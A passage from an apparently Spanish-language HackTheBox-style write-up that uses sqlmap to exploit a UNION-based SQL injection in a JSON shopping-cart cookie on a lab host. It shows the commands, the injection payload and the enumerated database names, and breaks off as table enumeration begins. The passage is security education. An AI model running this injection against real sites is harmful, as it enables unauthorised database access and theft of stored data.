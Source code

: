- Ahora enumeramos las bases de datos.

```bash
➜  nmap sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:31:11 /2024-05-26/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:31:12] [INFO] resuming back-end DBMS 'mysql'
[13:31:12] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qzbxq','mDgXayJoyKUymjwMorkqAOaGsoWQfELOhEkSsvUp'),'qvbkq'),NULL-- qbYb":"1"}
---
[13:31:12] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 5 (MariaDB fork)
[13:31:12] [INFO] fetching database names
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
available databases [2]:
[*] checkout
[*] information_schema

[13:31:13] [INFO] fetched data logged to text files under '/home/miguel/.local/share/sqlmap/output/checkout.shared.htb'

[*] ending @ 13:31:13 /2024-05-26/
```

- Ahora las tablas.

```bash
➜  nmap sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:31:48 /2024-05-26/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
```